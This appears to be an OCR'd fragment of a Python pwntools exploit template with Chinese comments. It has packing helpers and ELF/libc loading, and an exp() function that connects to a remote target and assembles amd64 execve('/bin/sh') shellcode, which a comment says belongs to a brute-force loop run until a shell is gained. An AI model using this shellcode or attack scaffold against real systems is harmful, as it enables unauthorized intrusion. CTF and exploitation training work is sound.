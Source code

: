   ```python
uu64	= lambda data										: u64((data.ljust(8, '\x00')).encode(ENCODING), signed="unsigned")
iu32	= lambda data										: u32((data.ljust(4, '\x00')).encode(ENCODING), signed="signed")
iu64	= lambda data										: u64((data.ljust(8, '\x00')).encode(ENCODING), signed="signed")
up32	= lambda data										: (p32(data, signed="unsigned").decode(ENCODING))
up64	= lambda data										: (p64(data, signed="unsigned").decode(ENCODING))
ip32	= lambda data										: (p32(data, signed="signed").decode(ENCODING))
ip64	= lambda data										: (p64(data, signed="signed").decode(ENCODING))



'''
	elf.plt[`symbol`] 获取elf文件中导入符号的plt地址
	elf.got[`symbol`] 获取elf文件中导入符号的got地址
	elf.sym['symbol'] 获取elf文件中本地符号的函数实际地址
'''
if execve_file != None:
	elf = ELF(execve_file)

'''
	lib.sym[`symbol`] 获取lib中符号地址
	next(lib.search('string')) 获取lib中字符串地址
'''
if lib_file != None:
	lib = ELF(lib_file)


'''
	执行爆破攻击
	只有当成功获取shell或者键盘Ctrl+C退出时，程序中止循环
	否则程序一直进行循环
'''

def exp():
	global r
	if 'd' in sys.argv:
		r = process(execve_file)
		gdb.attach(r)	# 断点必须在第一个输入之后
	else:
		r = remote(sys.argv[1], sys.argv[2])

	'''
		这里给出asm 汇编->机器代码的相关样例
	'''
	if context.arch == 'amd64':
		shellcode = asm('''
	mov	rax, %d		/*rbx = "/bin/sh"*/
	push	rax
	mov	rdi, rsp	/*rdi -> "/bin/sh"*/
	xor	esi, esi	/*esi -> NULL*/
	xor	edx, edx	/*edx -> NULL*/
	push	0x3b
	pop	rax		/*rax = 0x3b*/
	syscall			/*execve("/bin/sh")*/
	
	label1:
	mov	rax, [rsp + %d]	/* 测试内存访问 */
  ```